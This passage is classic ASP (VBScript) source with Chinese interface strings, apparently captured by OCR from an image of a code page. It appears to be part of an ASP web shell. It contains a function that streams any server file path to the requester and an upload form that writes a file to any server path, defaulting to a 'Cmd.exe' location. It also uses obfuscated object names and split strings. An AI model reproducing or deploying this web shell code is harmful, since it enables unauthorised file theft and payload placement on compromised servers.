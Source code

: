 If IsNull(str) Then Exit Function
HtmlEncodes=Server.HTMLEncode(str)
End Function
function downfile(path)
response.clear
set osm = createobject(obt(6,0))
osm.open
osm.type = 1
osm.loadfromfile path
sz=instrrev(path,"\")+1
response.addheader "content-disposition", "attachment; filename=" & mid(path,sz)
response.addheader "content-length", osm.size
response.charset = "utf-8"
response.contenttype = "application/octet-stream"
response.binarywrite osm.read
response.flush
osm.close
set osm = nothing
end function
function htmlencode(s)
  if not isnull(s) then
    s = replace(s, ">", ">")
    s = replace(s, "<", "<")
    s = replace(s, chr(39), "'")
    s = replace(s, chr(34), """")
    s = replace(s, chr(20), " ")
    htmlencode = s
  end if
end function
Function UpFile()
 If Request("Action2")="Post" Then
Set U=new UPC 
Set F=U.UA("LocalFile")
UName=U.form("ToPath")
 If UName="" Or F.FileSize=0 then
  SI="<br>请输"&"入上传"&"的完全"&"路径后选择"&"一个文件"&"上传!"
on error resume next
  Else
 F.SaveAs UName
 If Err.number=0 Then
 SI="<center><br><br><br>文件"&UName&"上"&"传"&"成功！</center>"
  End if
 End If
Set F=nothing
Set U=nothing
 SI=SI&BackUrl
 j SI
 ShowErr()
 Response.End
  End If
  j"<br><br><br><table border='0' cellpadding='0' cellspacing='0' align='center'><form name='UpForm' method='post' action='"&URL&"?Action=UpFile&Action2=Post' enctype='multipart/form-data'><tr><td>上传路径：<input name='ToPath' value='"&RRePath(Session("FolderPath")&"\Cmd.exe")&"' size='40'><input name='LocalFile' type='file'  size='25'> <input type='submit' name='Submit' value='上传'></td></tr></form></table>"
